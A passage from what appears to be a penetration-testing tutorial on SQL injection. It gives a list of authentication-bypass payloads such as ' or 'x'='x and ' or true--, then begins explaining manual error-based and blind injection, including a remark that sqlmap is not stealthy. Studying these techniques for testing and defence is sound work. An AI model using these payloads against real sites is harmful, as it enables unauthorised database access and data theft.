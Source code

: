 Then you have:

```text
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

## Sql-injections manually

Sqlmap is good, but it is not very stealthy. And it can generate a lot of traffic. And also it is good to understand the vulnerability in the cote and not just run tools. So let's learn sql-injections the manual way.

The two main ways for perform a sql-injection: **error based** or **blind**.

### Error-bases DB enumeration

If we manage to find an error-message after a broken sql-query, we can use that to try to map out the database structure.

For example, if we have a url that end with

```text
http://example.com/photoalbum.php?id=1
```
